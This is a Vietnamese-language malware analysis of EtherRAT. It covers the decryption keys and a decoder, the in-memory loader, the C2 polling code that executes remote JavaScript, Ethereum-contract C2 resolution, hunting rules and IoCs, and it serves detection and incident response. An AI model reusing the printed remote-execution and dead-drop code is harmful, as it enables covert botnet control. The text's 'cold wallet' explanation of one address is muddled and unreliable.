    b = b ^ n[i % n.length] ^ ((i >>> 8) & 0xff);
    b = si[b];
    b = (b - k[i % k.length]) & 0xff;
    output[i] = b;
  }

  return output;
}
```

Các hằng số:

```text
n (16 byte, XOR key):
ef0e52b62b0eef9fe5c3a1c18ec7c78c

k (64 byte, subtract key):
aa6846b7a17407366024bec0fe28d9908da6cffdfd6e20b8039cb51d14b8c903
bf7ec565ab44c4b2ae8b71f39acaa951eafe67efa084728c44ac9e7297202af8

si: bảng thay thế 256 byte (S-box)
```

Hai điểm dễ sai khi tự dựng lại. Thứ nhất, `previous` nhận **byte ciphertext gốc**, không phải byte đã giải mã - mỗi byte phụ thuộc vào byte mã hóa liền trước, một dạng chaining đơn giản nhưng đủ để làm hỏng kết quả nếu bạn gán nhầm. Thứ hai, khóa `n` dài đúng 16 byte; trong ghi chú phân tích ban đầu tôi đã ghi nhầm thành 20 byte do đếm nhầm độ dài chuỗi hex.

Tôi viết lại toàn bộ logic này thành một decoder Python độc lập để giải file mà không phải chạy mẫu:

```python
def decrypt_ini(ciphertext: bytes) -> bytes:
    """Decrypt bytes using the exact transform from the JS loader."""
    k = bytes.fromhex(K_HEX)
    n = bytes.fromhex(N_HEX)
    si = bytes.fromhex(SI_HEX)

    if len(si) != 256:
        raise ValueError(f"bad substitution table length: {len(si)}")

    out = bytearray(len(ciphertext))
    previous = n[0]

    for i, current in enumerate(ciphertext):
        old_previous = previous
        previous = current

        b = (current - old_previous) & 0xFF
        b = b ^ n[i % len(n)] ^ ((i >> 8) & 0xFF)
        b = si[b]
        b = (b - k[i % len(k)]) & 0xFF
        out[i] = b

    return bytes(out)
```

Điểm quan trọng nhất nằm ở chỗ plaintext đi đâu sau đó. Loader **không** ghi nó ra một file `.js`:

```js
const child = spawn(nodeToRun, ["-"], {
  stdio: ["pipe", "ignore", "ignore"],
  windowsHide: true,
});

child.stdin.write(decryptedPayload);
child.stdin.end();
child.on("exit", function () {
  setTimeout(runPayloadLoop, 0x1388);
});
```

`node.exe -` bảo Node đọc script từ stdin. Payload cuối chạy hoàn toàn trong bộ nhớ, `stdout` và `stderr` bị vứt bỏ, `windowsHide: true` chặn cửa sổ console. Nếu child thoát, loader chạy lại sau `0x1388` ms (5 giây); nếu đọc hoặc giải mã lỗi, nó thử lại sau `0x2710` ms (10 giây).

Hệ quả với người phòng thủ: sao chép file trên đĩa sẽ **không** thu được stage cuối. Cần dump bộ nhớ tiến trình `node.exe`/`texuvTlV.exe`, hoặc chặn ở pipe telemetry.

Payload đã giải mã có SHA-256:

```text
c16784e2c7b3e3b798addd718850da18f8eb532ab8f352c769a4470d7124805d
```

---

# V. Stage 3: EtherRAT core payload

Stage cuối import `fs`, `path`, `os`, `crypto` - và không import gì thêm. Đây là điều bất ngờ nhất với tôi khi đọc lần đầu: không có `child_process`, không có module mạng cấp thấp, không có logic keylogging hay đánh cắp credential. Mẫu tĩnh này gần như không làm gì cả.

Các hằng số hard-code ở đầu:

```js
const fallbackServer = "https://necropatia.com";
const buildId = "de30e25b-333b-45d3-a8cc-62dd131d142a";

const hostingContract = "0x788a5336c0ef70be87619a3c13a43050c426f7ec";
const c2ValueArgument = "0x6e044e19000487c4a6e6af15b4132a5561b5ee1f";
const blockchainEnabled = true;
```

Việc đầu tiên mã độc làm là tìm nơi cài xuống trên máy nạn nhân, theo một cách khá gọn:

```js
function chooseInstallDir() {
  const topNames = ["Microsoft", "Windows", "Programs", "Packages", "Google"];
  const subNames = [
    "Services",
    "Components",
    "Assemblies",
    "Extensions",
    "Modules",
  ];
  const hostUser =
    (process.env.COMPUTERNAME || "") + (process.env.USERNAME || "");
  const id = crypto
    .createHash("md5")
    .update(hostUser)
    .digest("hex")
    .slice(0, 8);

  const top = topNames[parseInt(id.slice(0, 2), 16) % topNames.length];
  const sub = subNames[parseInt(id.slice(2, 4), 16) % subNames.length];
  const suffix = id.slice(4);
  const topPath = path.join(localAppData, top);

  if (fs.existsSync(topPath)) {
    return path.join(topPath, sub, suffix);
  }

  return path.join(localAppData, id);
}
```

`MD5(COMPUTERNAME + USERNAME)` cắt 8 ký tự đầu làm hạt giống: hai byte đầu chọn tên cấp cao, hai byte kế chọn thư mục con, bốn ký tự còn lại làm hậu tố. Kết quả là đường dẫn kiểu:

```text
%LOCALAPPDATA%\Microsoft\Components\a3f1
%LOCALAPPDATA%\Google\Modules\7b2c
```

Ổn định trên mỗi cặp máy-người dùng, nhưng khác nhau giữa các máy - nên một đường dẫn cứng không dùng làm IoC được. Không có thao tác đặt thuộc tính `Hidden` nào; toàn bộ khả năng ngụy trang đến từ việc tên thư mục trông giống thành phần phần mềm hợp lệ.

File config nằm trong đường dẫn đó, tên là `MD5(installDir)[0:6]`, không có phần mở rộng. Nội dung là JSON được Base64 - không mã hóa, chỉ encode:

```js
return JSON.parse(Buffer.from(encoded, "base64").toString());
```

Nghĩa là nếu tìm được file này khi ứng cứu, bạn đọc được ngay. Các trường được core dùng:

```text
config[0]  Bot ID (UUID)
config[1]  tên file local có thể được gửi lên C2 để làm rối lại
config[3]  timestamp đánh dấu việc làm rối lại đã hoàn tất
config[5]  cờ bật/tắt logging thông thường
```

Mã độc ưu tiên lấy ID từ `config[0]`. Nếu chưa có, nó tìm artefact của phiên bản cũ hơn - `%APPDATA%\.node_bot_id`, hoặc bất kỳ file ẩn nào trong `%APPDATA%` có tên dài đúng 11 ký tự và bắt đầu bằng dấu chấm. Chỉ khi tất cả thất bại nó mới sinh UUID mới bằng `crypto.randomUUID()`. Logic "migration" này cho thấy EtherRAT đã qua nhiều phiên bản và tác giả muốn giữ nguyên danh tính mã độc khi nâng cấp.

Logging thông thường mặc định tắt (`loggingEnabled = false`), nhưng hai handler sau vẫn ghi không điều kiện:

```js
process.on("unhandledRejection", (err) => logError("unhandledRejection", err));
process.on("uncaughtException", (err) => logError("uncaughtException", err));
```

Đích ghi là `%APPDATA%\svchost.log`. Một file log tên `svchost.log` nằm trong `%APPDATA%` là thứ không bao giờ nên tồn tại trên máy sạch - theo tôi đây là IoC dễ hunting nhất trong toàn bộ chuỗi.

Có một tính năng lạ tên "reobfuscation". Nếu config có `config[1]`, chưa có `config[3]`, và file được chỉ định tồn tại, core đọc mã nguồn local rồi POST lên:

```text
<C2>/api/[REOBF_PATH]/<botId>
```

Body là `{code, build}`. Phản hồi thành công dài ít nhất 100 byte sẽ ghi đè file local, rồi timestamp được lưu vào `config[3]`. Ý tưởng là mỗi malware tự yêu cầu một biến thể mã nguồn riêng, phá vỡ hash-based detection.

Nhưng cần thận trọng khi diễn giải phần này. Chuỗi `[REOBF_PATH]` xuất hiện **nguyên văn** trong artefact - nó là placeholder chưa được thay, nên không thể khẳng định endpoint thật là `/reobf/` chỉ từ mẫu này. Hơn nữa core đang chạy qua stdin, và không artefact nào trong ba file đặt `config[1]`. Tính năng có trong code nhưng chưa chứng minh được đã kích hoạt trong đúng lần triển khai này. Core cũng không tự restart sau khi ghi đè, nên mã mới chỉ có tác dụng ở lần chạy sau.

Phần chính là vòng polling. Mỗi request dựng một URL giả dạng tài nguyên tĩnh:

```text
<C2>/api/<8-hex>/<botId>/<8-hex>.<extension>?<key>=<buildId>

extension = png | jpg | gif | css | ico | webp
key       = id | token | key | b | q | s | v
```

Cụ thể:

```text
hxxps[:]//necropatia[.]com/api/4f2a91bc/de30e25b-.../7c81ea03.png?token=de30e25b-333b-45d3-a8cc-62dd131d142a
```

Nhìn qua log proxy thì đây là một request tải ảnh. Nhưng có một header không thể ngụy trang:

```http
X-Bot-Server: <C2 hiện tại>
```

Timeout mỗi request là `0x1d4c0` ms - 120 giây, đúng kiểu long-poll. Sau mỗi vòng, bot nghỉ `0x1f4` ms (500 ms); nếu HTTP status lỗi hoặc kết nối hỏng, nó chờ thêm `0x1388` ms (5 giây).

Và đây là điểm RCE:

```js
const AsyncFunction = Object.getPrototypeOf(async function () {}).constructor;
const task = new AsyncFunction(
  "require",
  "process",
  "Buffer",
  "console",
  "__dirname",
  "__filename",
  "log",
  taskCode,
);

await task(require, process, Buffer, console, __dirname, __filename, log);
```

Nếu body phản hồi dài hơn 10 ký tự, toàn bộ nội dung được coi là JavaScript và thực thi. Task nhận `require` và `process`, nên nó có thể tự nạp `child_process`, `fs`, `net` - chạy lệnh hệ điều hành, đọc ghi file, mở kết nối mạng, tất cả với quyền của tiến trình Node.

Điều này giải thích tại sao mẫu tĩnh trông "rỗng": EtherRAT không phải RAT có tập lệnh cố định, nó là một **runtime thực thi mã từ xa**. Mọi hành vi tiếp theo đến từ task, và task không nằm trong mẫu.

Hai chi tiết nữa đáng ghi nhận. Task chạy trong `setImmediate()` và vòng polling không chờ nó kết thúc - nên nhiều task có thể tồn tại song song. Và mã không xác minh chữ ký, MAC hay hash nào trước khi thực thi: bất kỳ ai kiểm soát được C2, hoặc chèn được vào đường truyền, đều có RCE trên toàn bộ botnet.

---

# VI. Smart Contract

Đến phần khiến EtherRAT khác với một RAT thông thường. Bot không lưu URL C2 chính trong payload. Thay vào đó nó gửi song song JSON-RPC `eth_call` tới bảy endpoint Ethereum công khai:

```text
hxxps[:]//mainnet.gateway.tenderly[.]co
hxxps[:]//rpc.flashbots[.]net/fast
hxxps[:]//rpc.mevblocker[.]io
hxxps[:]//eth-mainnet.public.blastapi[.]io
hxxps[:]//ethereum-rpc.publicnode[.]com
hxxps[:]//eth.drpc[.]org
hxxps[:]//eth.merkle[.]io
```

Calldata được dựng bằng cách nối function selector với đối số đã bỏ tiền tố `0x` và pad trái thành 32 byte:

```js
data = "0x7d434425" + lookupAddress.replace("0x", "").padStart(64, "0");
```

Request gửi đi trông như sau:

```json
{
  "jsonrpc": "2.0",
  "method": "eth_call",
  "params": [
    {
      "to": "0x788a5336c0ef70be87619a3c13a43050c426f7ec",
      "data": "0x7d4344250000000000000000000000006e044e19000487c4a6e6af15b4132a5561b5ee1f"
    },
    "latest"
  ],
  "id": 1
}
```

Ở đây có một điểm dễ nhầm mà tôi muốn nói rõ. Nhiều ghi chú - kể cả bản đầu tiên của tôi - gọi cả hai địa chỉ là "smart contract". Thực tế chỉ `0x788a5336c0ef70be87619a3c13a43050c426f7ec` nằm trong trường `to`, tức là contract **thực sự được truy vấn**. Còn `0x6e044e19000487c4a6e6af15b4132a5561b5ee1f` có thể hiểu là địa chỉ ví lạnh - ví vật lý chạy và ký mã solidity để tạo smart-contract trên phục vụ hạ tầng blockchain; mã không bao giờ gọi trực tiếp địa chỉ này. Kiến trúc kiểu registry: một contract lưu trữ, tra bằng key.

Kết quả trả về được decode như một ABI dynamic string:

```js
const offset = parseInt(hex.slice(0, 64), 16) * 2;
const length = parseInt(hex.slice(offset, offset + 64), 16);
const value = Buffer.from(
  hex.slice(offset + 64, offset + 64 + length * 2),
  "hex",
).toString("utf8");
```

Và chỉ được chấp nhận nếu khớp regex:

```js
/^(https?|wss?):\/\//.test(url);
```

Bảy RPC chạy song song với timeout 10 giây mỗi cái, qua `Promise.allSettled`. Mã độc đếm số lần mỗi URL xuất hiện rồi chọn giá trị nhiều phiếu nhất:

```js
const counts = {};
values.forEach((v) => {
  counts[v] = (counts[v] || 0) + 1;
});
return Object.entries(counts).sort((a, b) => b[1] - a[1])[0][0];
```

Lưu ý thuật toán này không đòi hỏi quorum hay đa số tuyệt đối - chỉ cần một RPC trả về mà các RPC khác đều lỗi, giá trị đó vẫn được chọn. Đây là cơ chế xử lý exception khi lỗi mạng.

Nếu không RPC nào trả URL hợp lệ, bot sử dụng C2 phụ được hard-code `necropatia[.]com`. Một timer chạy mỗi 60 giây, và sau khoảng 5 phút (`0x493e0` ms) sẽ truy vấn lại blockchain:

```js
setInterval(() => {
  if (blockchainEnabled && Date.now() - lastFetch > 0x493e0) {
    fetchUrlFromBlockchain().then((url) => {
      if (url && url !== serverUrl) serverUrl = url;
    });
    lastFetch = Date.now();
  }
}, 0xea60);
```

Đây là toàn bộ giá trị của thiết kế này với kẻ tấn công: đổi C2 trên toàn botnet chỉ cần một "Transaction Ethereum", không cần đụng tới bất kỳ máy nạn nhân nào. Và không ai takedown được một smart contract.

Unit 42 đã phân giải được bốn URL từ các giao dịch liên quan tới contract này:

```text
hxxps[:]//seconds.australiaeast.cloudapp.azure[.]com
hxxps[:]//resurce.swedencentral.cloudapp.azure[.]com
hxxps[:]//cover.wedencentral.cloudapp.azure[.]com
hxxps[:]//dns1.southafricanorth.cloudapp.azure[.]com
```

Tôi giữ nguyên chính tả theo nguồn - chú ý `wedencentral` ở dòng thứ ba, gần như chắc chắn là lỗi gõ của chính tác nhân khi ghi giá trị lên chain, và nó không tương ứng với region Azure nào. Bốn giá trị này là quan sát lịch sử trên blockchain, không nên mặc định là đang hoạt động khi bạn đọc bài này.

Một điều cần nói rõ về vai trò của blockchain ở đây: nó là **dead-drop resolver cho địa chỉ máy chủ**, không phải kênh truyền task. Task vẫn đi qua HTTP(S) hoặc WebSocket tới URL nhận được. Bảy RPC kia là dịch vụ hợp pháp, được vô số ứng dụng Web3 dùng hằng ngày - chặn chúng theo tên miền là sai hướng. Tín hiệu có giá trị nằm ở **tổ hợp**: RPC + contract `0x788a5336c0ef70be87619a3c13a43050c426f7ec` + selector `0x7d434425` + một tiến trình Node ở đường dẫn bất thường.

Mỗi mạng blcokchain đều có explorer riêng phục vụ tra cứu Transaction, thời điểm viết bài phân tích này C2 độc hại vẫn tiếp tục được cập nhật:





---

# VII. The bigger picture

Khi rà lại repo Github [Unit42-timely-threat-intel](https://github.com/PaloAltoNetworks/Unit42-timely-threat-intel) tính đến 06/08/2026, có ít nhất tám chiến dịch dùng blockchain làm lớp phân giải C2:

| Ngày       | Báo cáo                                                 | Blockchain          | Cơ chế phân giải C2                                                                                                               |
| ---------- | ------------------------------------------------------- | ------------------- | --------------------------------------------------------------------------------------------------------------------------------- |
| 2026-07-30 | Remus Info-Stealer Uses Blockchain-Anchored C2          | Ethereum            | Truy vấn contract `0x999941b74F6bbc921D5174A5b29911562cd2D7CF` qua `ethereum-rpc[.]publicnode[.]com`                              |
| 2026-07-21 | Malicious npm/PyPI Supply Chain packages                | Ethereum mainnet    | Dropper **EtherHiding**; hai contract: `0x52221c293a21D8CA7AFD01Ac6bFAC7175D590A84`, `0xa1b40044EBc2794f207D45143Bd82a1B86156c6b` |
| 2026-07-02 | ClickFix campaign utilizing MaaS kit with Blockchain C2 | **Polygon (MATIC)** | `tracker.js` tra blockchain lấy URL C2 mã hóa base36; là 1 trong **4 lớp phân giải C2** độc lập                                   |
| 2026-06-28 | Fake IT support abuses Teams to deliver EtherRAT        | Ethereum            | Contract `0x788a5336...` tra bằng key `0x6e044e19...`; fallback hard-code `necropatia[.]com`                                      |
| 2026-05-22 | RemusStealer Delivered via Software Search Redirection  | Ethereum            | **Ethereum Dead Drop Resolver** - cùng contract `0x999941b7...` qua `eth[.]llamarpc[.]com`; loader Go làm rối bằng Garble         |
| 2026-04-13 | LORIKAZZ ANDROID/IOT                                    | Ethereum (**ENS**)  | Chuỗi `"Empty ENS record"` trong ELF - chồng lấn mã nguồn với Kimwolf/AISURU                                                      |
| 2026-03-30 | KIMWOLF V7 IoT                                          | Ethereum (**ENS**)  | 5 RPC endpoint hard-code, phân giải tên miền **ENS** ra IP C2; backup C2 qua Tor .onion                                           |
| 2024-09-04 | EtherHiding popups still active                         | **BNB Smart Chain** | Kỹ thuật **EtherHiding** gốc - mã giấu trong contract, lấy qua `bsc-dataseed1.binance[.]org`; gắn với ClearFake/ClickFix          |

Có vài mẫu hình đáng chú ý. Ethereum mainnet chiếm áp đảo, nhưng Polygon và BNB Smart Chain đều đã xuất hiện - phí giao dịch thấp hơn là lý do hợp lý. ENS được dùng như một biến thể rẻ hơn: thay vì viết contract riêng, tác nhân chỉ cần trỏ một tên miền ENS tới IP C2. Và Remus dùng chung một contract (`0x999941b7...`) qua hai chiến dịch cách nhau hơn hai tháng, cho thấy đây là hạ tầng dùng lại chứ không phải dựng mới mỗi lần.

Vì mọi giao dịch Ethereum đều công khai, có thể pivot ngược từ contract. Truy vấn sau trên BigQuery liệt kê các giao dịch tới contract của EtherRAT, cùng địa chỉ đã tương tác với nó:

```sql
SELECT
  t.block_timestamp,
  t.from_address,
  t.to_address,
  t.input
FROM `bigquery-public-data.crypto_ethereum.transactions` AS t
WHERE t.to_address = '0x788a5336c0ef70be87619a3c13a43050c426f7ec'
  AND t.block_timestamp >= TIMESTAMP('2026-01-01')
ORDER BY t.block_timestamp DESC;
```

Các giao dịch ghi giá trị vào contract sẽ chứa URL C2 dưới dạng hex trong trường `input` - decode phần dynamic string ra là có được lịch sử C2 đầy đủ, kể cả những giá trị đã bị ghi đè. Đổi `to_address` sang các contract trong bảng trên là có ngay một quy trình hunting tìm áp dụng chung cho cả họ mã độc này.

---

# VIII. Hunting and Detection

Không IoC đơn lẻ nào đủ để đưa ra kết luận là mã độc xuất hiện trong hệ thống. Các hành vi như: `"Node.js"` là runtime hợp pháp, `"nodejs.org"` là hạ tầng chính thức, RPC Ethereum công khai được dùng bởi hàng nghìn ứng dụng Web3 thật. Giá trị nằm ở việc nhiều hành vi đó xuất hiện nối thành chuỗi.

## VIII.1. Process Tree.

Đây là dấu hiệu mạnh nhất, đặc biệt khi bắt đầu từ một MSI trong thư mục người dùng hoặc `%TEMP%`:

```text
msiexec.exe
└─ conhost.exe --headless
   └─ cmd.exe /c R2YxSP2m.cmd
      └─ conhost.exe --headless
         └─ node.exe z0SYYdWk9g.dat
            └─ texuvTlV.exe -
```

Các command-line đáng lưu tâm khi hunting:

```text
conhost --headless cmd /c call <batch> 49UB
curl -sLo %TEMP%\node-v18.20.5-win-x64.zip https://nodejs.org/...
node.exe <path>\z0SYYdWk9g.dat
texuvTlV.exe -
```

Riêng mẫu `node.exe -` hoặc `<bất kỳ>.exe -` sinh ra từ một tiến trình Node khác đã là bất thường đáng điều tra, độc lập với chiến dịch này. Lưu ý tên file trong mẫu này là ngẫu nhiên theo từng build, nên hãy hunting theo **hình dạng** của chuỗi chứ không phải chuỗi ký tự cụ thể.

## VIII.2. File in system.

Tìm bộ ba `.cmd` + `.dat` + `.ini` có tên ngẫu nhiên nằm cùng một thư mục trong `%LOCALAPPDATA%`, kèm `1DIZ0D\node.exe` hoặc một `node.exe` được copy sang tên khác (Ba extensions này chỉ là phụ hoàn toàn có thể bị sửa đổi đối với các chiến dịch tấn công tương tự). Các artefact phụ:

```text
qNCplqpq                       tệp tạm của `where node`
%APPDATA%\.node_bot_id         bot ID phiên bản cũ
%APPDATA%\svchost.log          log lỗi - IoC mạnh nhất
%LOCALAPPDATA%\<path>\<6-hex>  config Base64, không mở rộng
```

Vì stage cuối đi qua stdin, ưu tiên thu thập **bộ nhớ tiến trình**, command-line và pipe telemetry. Chỉ sao chép file trên đĩa sẽ bỏ lỡ cả EtherRAT core lẫn task mà C2 đã gửi.

## VIII.3. Network.

Chuỗi hành vi đặc trưng của một tiến trình Node ở đường dẫn bất thường:

1. POST JSON-RPC `eth_call` tới nhiều RPC Ethereum trong vài giây, với `to` = `0x788a5336c0ef70be87619a3c13a43050c426f7ec` và data bắt đầu bằng selector `0x7d434425`.
2. Kết nối tới `necropatia[.]com` hoặc URL do contract trả về.
3. GET tới URI dạng `/api/<8-hex>/<UUID>/<8-hex>.<ext>?<key>=<buildId>`, kèm header `X-Bot-Server`.
4. Nhận body JavaScript, rồi có thể sinh tiến trình con hoặc kết nối mới theo task.

Bước 3 dễ viết rule nhất: một request tưởng như tải `.png` nhưng mang header `X-Bot-Server`, giữ kết nối 120 giây, và lặp lại mỗi 500 mili giây - không có ứng dụng hợp lệ nào hành xử như vậy.

Đừng chặn `nodejs.org`, Azure CloudApp hay các RPC công khai theo tên miền; khả năng false positive quá cao. Với dịch vụ dùng chung, hãy kết hợp process ancestry, đường dẫn binary, mẫu JSON-RPC, contract, header HTTP và tần suất polling. Các tên miền C2 đã xác nhận thì chặn riêng theo chính sách tổ chức.

## VIII.4. Một lưu ý về persistence.

Unit 42 báo cáo Run key:

```text
HKCU\Software\Microsoft\Windows\CurrentVersion\Run\OneDriveSetup
```

Tôi không tìm thấy `reg add`, API Registry hay đoạn mã tương đương nào trong `R2YxSP2m.cmd`, loader 1969 byte, hay EtherRAT core đã giải mã. Ba lớp loader đều có cơ chế giữ tiến trình sống - batch chờ vô hạn, loader chạy lại payload sau 5 giây, core polling vô tận - nhưng không cơ chế nào sống sót qua reboot. Vì vậy tôi xem Run key này là IoC **được nguồn báo cáo, chưa xác minh từ ba artefact tĩnh**. Nó có thể nằm trong một bảng MSI khác, một thành phần không có trong tập mẫu, hoặc chính là một task do C2 gửi xuống. Cần bảng MSI đầy đủ hoặc telemetry động để kết luận.

Tương tự, HopToDesk và AnyDesk giúp tác nhân giữ đường vào, nhưng đó là công cụ RMM riêng biệt, không phải persistence do ba tệp EtherRAT cài đặt.

---

# IX. IoC

Mọi IoC mạng dưới đây đã được defang. Hash dùng SHA-256.

**Hash**

```text
fc2907fa866f86e0821f75060a331ce69ee10ff3aa374587993b17ba5406fa33  v7.msi
c2eeb74892408496f5a307a5b1fdc92d94fd014ab4252868f04046bf84718ab6  R2YxSP2m.cmd
94cb54d53927e4ba469099760db531be563a84d716df69e864062d90f0f2448d  z0SYYdWk9g.dat
0cb2f7651d50e1ed1a691e82f0297d49444bdded2461e136cffb156d4f234e52  eXYlcnebRLrWyBc.ini
d46b4e8d188fe1773c44d38d730dcb6287639568240c765d9ad4ad79cd239e82  JS 1969 byte giải mã từ .dat
c16784e2c7b3e3b798addd718850da18f8eb532ab8f352c769a4470d7124805d  EtherRAT core giải mã từ .ini
```

Ba ánh xạ tên tệp đầu sau MSI dựa theo thứ tự và loại payload trong tài liệu Unit 42, vì các file thô không tồn tại độc lập trong workspace của tôi. Hai hash cuối là hash của code gốc đã giải mã, không phải của bản pseudocode có comment mà tôi trích trong bài.

**Tên tệp, thư mục và marker**

```text
v7.msi                        node-v18.20.5-win-x64.zip
R2YxSP2m.cmd                  node-v18.20.5-win-x64\
z0SYYdWk9g.dat                1DIZ0D\
eXYlcnebRLrWyBc.ini           texuvTlV.exe
qNCplqpq                      49UB
%APPDATA%\.node_bot_id        _XH=1
%APPDATA%\svchost.log
```

**Hạ tầng phát tán và C2**

```text
hxxps[:]//camorreado[.]click/v7.msi                    phân phối MSI
camorreado[.]click                                     open directory, EtherRAT v1-v9
hxxps[:]//necropatia[.]com                             fallback C2 hard-code
hxxps[:]//seconds.australiaeast.cloudapp.azure[.]com   C2 từ dữ liệu blockchain
hxxps[:]//resurce.swedencentral.cloudapp.azure[.]com   C2 từ dữ liệu blockchain
hxxps[:]//cover.wedencentral.cloudapp.azure[.]com      C2 từ dữ liệu blockchain
hxxps[:]//dns1.southafricanorth.cloudapp.azure[.]com   C2 từ dữ liệu blockchain
```

**Ethereum**

```text
0x788a5336c0ef70be87619a3c13a43050c426f7ec   contract nhận eth_call
0x6e044e19000487c4a6e6af15b4132a5561b5ee1f   có thể hiểu là địa chỉ ví lạnh - ví vật lý chạy và ký mã solidity để tạo smart-contract trên phục vụ hạ tầng blockchain
0x7d434425                                   function selector
```

**RPC hợp pháp bị lạm dụng** - hạ tầng công khai dùng chung, không phải IoC độc lập:

```text
mainnet.gateway.tenderly[.]co        ethereum-rpc.publicnode[.]com
rpc.flashbots[.]net/fast             eth.drpc[.]org
rpc.mevblocker[.]io                  eth.merkle[.]io
eth-mainnet.public.blastapi[.]io
```

**Artefact cấu hình và giao thức**

```text
Build ID:        de30e25b-333b-45d3-a8cc-62dd131d142a
HTTP header:     X-Bot-Server
URI pattern:     /api/<8-hex>/<UUID>/<8-hex>.<png|jpg|gif|css|ico|webp>?<id|token|key|b|q|s|v>=<buildId>
Config path:     %LOCALAPPDATA%\<derived-path>\<6-hex>
XOR key n:       ef0e52b62b0eef9fe5c3a1c18ec7c78c
Subtract key k:  aa6846b7a17407366024bec0fe28d9908da6cffdfd6e20b8039cb51d14b8c903
                 bf7ec565ab44c4b2ae8b71f39acaa951eafe67efa084728c44ac9e7297202af8
Stage-2 key:     94ea2ff910a28771f74c2759132ce77d0eb231e3aa1900e1
Registry value:  HKCU\Software\Microsoft\Windows\CurrentVersion\Run\OneDriveSetup
```

Run value `OneDriveSetup` chỉ được xác nhận theo báo cáo Unit 42; không có lệnh tạo key trong ba tệp tôi đã phân tích.

**Tài khoản và tenant của tác nhân**

```text
helpdesk@Progressive936.onmicrosoft[.]com
Progressive936.onmicrosoft[.]com
310e9ead-4f6f-491e-aafe-feb08c8d17a4
```

---

# X. References

- [Unit 42: Fake IT support abuses Teams to deliver EtherRAT](https://github.com/PaloAltoNetworks/Unit42-timely-threat-intel/blob/main/2026-06-28-Fake-IT-support-abuses-Teams-to-deliver-EtherRAT.txt)

- [Thông báo của Unit 42 trên LinkedIn](https://www.linkedin.com/posts/phishing-etherrat-ugcPost-7478229973678460928-PATm/)

- [Thông báo của Unit 42 trên X](https://x.com/Unit42_Intel/status/2072464336040189959)

- [Contract 0x788a5336c0ef70be87619a3c13a43050c426f7ec trên Etherscan](https://etherscan.io/address/0x788a5336c0ef70be87619a3c13a43050c426f7ec)

- [aircag: A case of etherRat](https://www.aircag.xyz/blog/a-case-of-etherrat)

<!-- - [Phân tích cục bộ Giai đoạn 1](IoC_Unit42/Stage1_R2YxSP2m_cmd.md)
- [Phân tích cục bộ Giai đoạn 2](IoC_Unit42/Stage2_z0SYYdWk9g_dat.md)
- [Bản dựng lại loader Giai đoạn 2](IoC_Unit42/Stage2_deobfuscated_z0SYYdWk9g.js.txt)
- [Phân tích cục bộ Giai đoạn 3](IoC_Unit42/Stage3_eXYlcnebRLrWyBc_ini.md)
- [Pseudocode EtherRAT core dễ đọc](IoC_Unit42/Stage3_decode_readable_eXYlcnebRLrWyBc.js.txt)
- [Script giải mã eXYlcnebRLrWyBc.ini](IoC_Unit42/decrypt_eXYlcnebRLrWyBc_ini.py) -->

---

<!-- # Hunting at Scale with BigQuery - giải thích chi tiết

Ghi chú phân tích mục _"Hunting at Scale with BigQuery"_ trong bài [A case of etherRat](https://www.aircag.xyz/blog/a-case-of-etherrat) của aircag, kèm phần dựng lại chữ ký hàm và một số bổ sung/hiệu chỉnh của tôi.

---

## 1. Ý tưởng cốt lõi

Toàn bộ mục này xoay quanh một nhận xét đơn giản nhưng rất mạnh:

> Địa chỉ contract thì thay đổi được, nhưng **mã của contract** thì để lại vân tay.

Kẻ tấn công có thể deploy contract C2 mới mỗi tuần, mỗi chiến dịch, mỗi khách hàng. Mỗi lần deploy là một địa chỉ hoàn toàn khác - nếu bạn chỉ blocklist `0x788a5336...` thì bạn luôn đi sau một bước.

Nhưng chúng deploy lại **cùng một đoạn code**. Và vì Ethereum công khai toàn bộ bytecode của mọi contract, ta có thể lật ngược vấn đề: thay vì săn địa chỉ, hãy săn **cấu trúc hàm**. Đó là điều mà hai selector `7d434425` và `7fcaf666` cho phép.

Tác giả gọi đây là fingerprint, và mô tả nó là _"the first 4 bytes of the keccak256 hash of each function's signature"_.

---

## 2. Function selector là gì

Khi bạn gọi một hàm trên smart contract Ethereum, EVM không hiểu tên hàm. Nó chỉ nhận một mảng byte gọi là **calldata**. Bốn byte đầu tiên của calldata là **function selector**, được tính như sau:

```text
selector = keccak256("tenHam(kieu1,kieu2,...)")[0:4]
```

Vài quy tắc quan trọng khi tính:

- Chữ ký được viết **không có dấu cách**, **không có tên biến**, chỉ tên hàm và danh sách kiểu.
- Dùng **kiểu chuẩn hóa**: `uint256` chứ không phải `uint`, `address` chứ không phải `address payable`.
- Hash là **Keccak-256 gốc**, _không phải_ SHA3-256 chuẩn NIST. Hai thuật toán này chỉ khác nhau ở byte padding (`0x01` so với `0x06`) nhưng cho kết quả hoàn toàn khác. Đây là lỗi kinh điển: `hashlib.sha3_256` trong Python **không** dùng được.

Ví dụ với hàm `transfer` của ERC-20:

```text
keccak256("transfer(address,uint256)") = a9059cbb2ab09eb219583f4a59a5d0623ade346d962bcd4e46b11da047c9049b
                                         ^^^^^^^^
selector = 0xa9059cbb
```

Vì selector chỉ là 4 byte đầu của một hash 32 byte, phép biến đổi này **một chiều và có mất mát**. Bạn không "giải mã" selector về tên hàm được. Cách duy nhất là **đoán rồi thử**: lấy một danh sách chữ ký ứng viên, hash từng cái, so khớp. Đó chính là nguyên lý hoạt động của các dịch vụ như 4byte.directory.

---

## 3. Dựng lại chữ ký thật của hai selector

Bài gốc chỉ nói `7d434425` là getter và `7fcaf666` là setter, không cho biết chữ ký thật. Tôi tự dựng lại bằng cách viết một bản Keccak-256 thuần Python rồi brute-force theo mẫu tên.

Trước hết, xác thực thuật toán bằng các selector đã biết chắc:

```text
=== sanity check ===
OK  transfer(address,uint256)                  a9059cbb  (expected a9059cbb)
OK  approve(address,uint256)                   095ea7b3  (expected 095ea7b3)
OK  transferFrom(address,address,uint256)      23b872dd  (expected 23b872dd)
OK  balanceOf(address)                         70a08231  (expected 70a08231)
OK  totalSupply()                              18160ddd  (expected 18160ddd)
keccak256 implementation correct: True
```

Sau đó sinh 11.520 ứng viên từ tổ hợp động từ (`get`, `set`, `read`, `write`, `store`, `resolve`, `lookup`, ...), danh từ (`Url`, `Server`, `Host`, `C2`, `String`, `Data`, ...) và danh sách kiểu tham số:

```text
=== brute force ===
candidates tried: 11520
  MATCH 0x7d434425 (getter) = getString(address)
  MATCH 0x7fcaf666 (setter) = setString(string)
```

**Hai chữ ký thật là:**

```solidity
function getString(address) public view returns (string)
function setString(string) public
```

Về mặt lý thuyết, selector 4 byte có thể va chạm, nên một khớp đơn lẻ chưa phải bằng chứng tuyệt đối. Nhưng ở đây ta có **một cặp getter/setter đối xứng, cùng hậu tố `String`, khớp đồng thời** - xác suất đó là trùng hợp ngẫu nhiên gần như bằng không.

